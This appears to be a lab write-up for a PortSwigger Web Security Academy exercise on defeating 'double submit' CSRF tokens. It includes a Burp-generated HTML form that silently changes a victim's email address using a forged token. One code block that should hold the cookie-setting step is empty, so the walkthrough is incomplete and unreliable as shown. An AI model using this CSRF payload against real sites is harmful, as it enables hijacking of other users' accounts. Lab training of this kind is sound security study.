






[Source](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)
## Task
The email address change functionality in this lab is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.
To solve the task, use your exploit server to host an HTML page that uses a CSRF attack to change the email address of the user viewing the page.
You can log in to your account using the following credentials: `wiener:peter`
## Solution
Go to the task page



Log in as `wiener`



Change your email and intercept the request via `Burp Suite`. Send it to `Repeater`



We see that `csrf` in `cookie` and `csrf` at the bottom of the request are duplicated. Right-click and then `Engagement tools > Generate CSRF PoC`. Remove the lines with `<script>` and instead enter
```Request

```
, replacing `YOUR-LAB-ID.web-security-academy.net` with `Host`. We also change the `<input type="hidden" name="csrf" value="mgdjbvbnd34bnvfs" />` to `fake`

```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a960015048ee12080f90da300810055.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    
  </body>
</html>
```



Copy the HTML code and go to `Exploit Server`. In it, in the `Body` field, insert this HTML code



Then click `Store` and `Deliver exploit to victim`


